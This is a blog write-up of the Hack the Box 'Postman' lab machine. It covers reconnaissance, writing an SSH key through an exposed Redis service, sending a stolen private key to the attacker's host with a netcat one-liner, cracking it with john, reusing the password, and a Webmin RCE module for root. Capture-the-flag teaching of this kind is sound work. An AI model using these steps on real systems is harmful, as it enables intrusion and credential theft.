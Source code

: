 +++
author = "Nick"
categories = ["hack the box", "webmin", "redis", "ssh2john", "reverse shell", "john"]
date = 2020-03-14T10:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/03/postman.png"
slug = "hack-the-box-postman"
summary = "Today we are doing the Hack the Box machine, Postman. It's a Linux machine listed as easy. Let's jump in!"
tags = ["hack the box", "webmin", "redis", "ssh2john", "reverse shell", "john"]
title = "Hack the Box - Postman"

+++


Welcome back! Today we are doing the Hack the Box machine, Postman. It's a Linux machine listed as easy. Let's jump in!

As normal, we start with an ```nmap``` scan: 

```nmap -sC -sV -T4 -p- -oA all_scan 10.10.10.160```

Here are our results:
```
Nmap scan report for 10.10.10.160
Host is up (0.053s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.88 seconds
```

Some interesting results, we see ```Redis``` and ```Webmin``` being hosted. Let's see what is on port 80 first.

We are greeted by a basic landing page. Nothing really in the source either. We will now see what is on port 10000. When we browse there we are told that we need to go to ```Postman:10000``` in order to view whats going on. So we add ```postman``` to our host file and browse over.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-23.png" >}}

We see a Webmin login page.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-24.png" >}}

We try the standard credentials and they don't work. A quick ```searchsploit``` gives us some results.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-25.png" >}}

However none of the RCE's work and the others are authenticated exploits. With a seemingly dead end there, we look to the ```Redis``` port. Some quick googling shows [there is a vulnerablity here](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). So to fully leverage this, we'll need the ```Redis-CLI``` tools installed. Here's a [handy link](https://codewithhugo.com/install-just-redis-cli-on-ubuntu-debian-jessie/) for that!

With our tools installed we can now replicate this exploit. The only catch is, we don't know a user. If we google around enough we find some posts about people having a ```/var/lib/redis``` location. We can use that as our starting point. If there is a file with that name, we can hope there might be a ```.ssh``` directory too, since you know, this is a CTF ;).

We connect via ```redis-cli``` and issue the following command to check the directory.

Command:
```config set dir /var/lib/redis```

{{< figure src="__GHOST_URL__/content/images/2019/12/image-26.png" >}}

Looks like it is a viable location. We repeat with the ```.ssh``` location.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-27.png" >}}

That too worked. So we can follow the steps in our exploit! First we generate a new ssh key with ```ssh-keygen```.

{{< figure src="__GHOST_URL__/content/images/2019/12/keygen.gif" >}}

We then pad the key with some spaces. Then read it to memory and dump it to the ```authorized_keys``` file accoring to our exploit document.

{{< figure src="__GHOST_URL__/content/images/2019/12/redis_exploit.gif" >}}

Now we should be able to SSH in as redis.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-28.png" >}}

Success! We now can see if we have access to user.txt but we don't. So we download ```linenum``` and start enumerating. One file is of interest. ```id_rsa.bak```.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-29.png" >}}

We then transfer this file back to our machine. We can use ```netcat``` for this:

On our attacking machine we spin up a listener:
```nc -l -p 9999 > ssh_file.tgz < /dev/null```.

On our server we send the file:
```cat id_rsa.bak | nc 10.10.14.119 9999```

Once we have the file, we can send it through ```ssh2john``` to convert it to a proper format for cracking.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-30.png" >}}

We can now send this file into ```john``` and use ```rockyou.txt``` to hopefully crack it.

Command:
```john --wordlist=/usr/share/wordlists/rockyou.txt stolen_key```

{{< figure src="__GHOST_URL__/content/images/2019/12/john.gif" >}}

We get a password of ```computer2008```. We can switch back to our redis ssh session and use ```su Matt``` and the password we just found to get user access and the ```user.txt``` file. We enumerate a bit more as Matt now but don't see all that much. However, thinking like a user might be good here. This password might be reused. Head over to the Webmin portal with those credentials and we have access!

This means we can use one of our authenticated exploits we saw earlier to elevate. In this case we'll just go down the list, the first is the ```webmin_packageup_rce```.  We load the module and set our options. We require a few this time, ```Password```, ```rhosts```, ```ssl```, ```username``` and ```lhost```

{{< figure src="__GHOST_URL__/content/images/2019/12/image-22.png" >}}

We get all our settings set and let it rip!

{{< figure src="__GHOST_URL__/content/images/2019/12/postman_root.gif" >}}

There we have it, root access!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

